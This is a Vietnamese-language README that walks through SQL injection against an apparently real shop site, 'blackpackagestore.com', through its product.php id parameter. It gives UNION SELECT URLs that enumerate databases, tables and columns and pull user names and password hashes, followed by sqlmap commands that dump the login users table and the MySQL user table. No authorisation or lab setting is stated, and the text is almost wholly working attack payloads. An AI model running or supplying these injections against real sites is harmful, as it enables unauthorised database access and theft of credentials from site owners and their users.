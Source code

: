 # TỔNG QUAN # 
Kiểm tra trên web "Black Package Store" `https://blackpackagestore.com/product.php?id=72`

![image](https://github.com/user-attachments/assets/df34c6d3-c54f-4b61-a8d8-c942b15b4122)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

![image](https://github.com/user-attachments/assets/1dae9e7c-ede6-497c-bd76-4927cd8affc5)

![image](https://github.com/user-attachments/assets/8b967633-6006-433d-80f3-3611674607cc)

![image](https://github.com/user-attachments/assets/3d4a301c-ba81-467e-a6a6-8014fc79e6f1)

## Kiểm tra database, version, user 

https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30

![image](https://github.com/user-attachments/assets/81472dc4-9128-4b8a-a717-ee4fadbfa595)

![image](https://github.com/user-attachments/assets/0935da4c-e509-4d8d-9af8-eefd9a3a2906)

![image](https://github.com/user-attachments/assets/9987c07c-51a6-4722-9bc7-7745975c3fde)

![image](https://github.com/user-attachments/assets/9ea8ba0d-4071-424b-98bb-1dde03b22b6f)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.schemata

![image](https://github.com/user-attachments/assets/3632da54-d00c-4ccb-9c56-6ec40fa147c9)

**2. Liệt kê các bảng**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.tables+wHeRe+table_schema='login'

![image](https://github.com/user-attachments/assets/998b38ce-8ccb-4b1b-b67a-94892b82c483)

**3. Liệt kê các cột trong bảng**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.columns+wHeRe+table_name=%27users%27

![image](https://github.com/user-attachments/assets/56202ebd-5494-4202-902c-8bcce97b7699)

**4. Trích xuất dữ liệu bất kì**
https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_name,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users

![image](https://github.com/user-attachments/assets/ae785d98-fb82-48b3-b93f-2db8573a8b2b)

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_password_hash,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users

![image](https://github.com/user-attachments/assets/21f2d6bf-6f0e-40b0-a00e-1d82d634f08e)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 --dbs`

![image](https://github.com/user-attachments/assets/c5c25908-7213-447b-8c11-74e926545840)

**2. Tìm kiếm thông tin về username, password, tài khoản sysadmin**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login --tables`

![image](https://github.com/user-attachments/assets/2127b404-259e-417a-94e4-722aec4c55b3)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_name --dump`

![image](https://github.com/user-attachments/assets/d9f17e4d-25ef-4890-ac4a-bf44a344b327)

sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_password_hash --dump`

![image](https://github.com/user-attachments/assets/fe22e570-f0ce-463b-a7e3-ea2bc8165b7f)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql --tables`

![image](https://github.com/user-attachments/assets/52a6f9ab-eb0d-4a26-9dcb-f3b508b81e3b)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user --columns`

![image](https://github.com/user-attachments/assets/2054d2a2-1b16-4880-a56e-c776fda75c70)

![image](https://github.com/user-attachments/assets/0709a901-ee5c-47ef-95ad-a21e66f6de02)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user -C Host,User,plugin --dump`

![image](https://github.com/user-attachments/assets/394ed735-6352-49a4-b918-61cc6fab1593)

